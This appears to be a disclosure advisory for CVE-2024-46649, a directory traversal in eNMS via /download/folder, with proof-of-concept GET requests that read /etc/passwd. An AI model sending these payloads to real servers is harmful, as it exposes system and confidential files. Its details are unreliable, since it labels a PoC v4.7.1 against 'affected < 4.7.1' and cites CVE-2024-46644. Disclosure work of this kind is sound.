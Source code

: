 # **CVE-2024-46649**


# Details
* **Vulnerability Type**: eNMS < 4.7.1 Directory Traversal via /download/folder 
* **Affected Application**: eNMS
* **Affected Versions**: < 4.7.1
* **Affected Component**: /download/folder/[DIR]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
##  ```GET /download/folder/>[DIR]/>[FILE]```

**v4.4.0**
```
GET /download/folder/>etc/>passwd
```
**v4.7.1**
```
GET /download/folder/file_transfer/../../../../etc/passwd
```
# References
https://www.cve.org/CVERecord?id=CVE-2024-46644
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
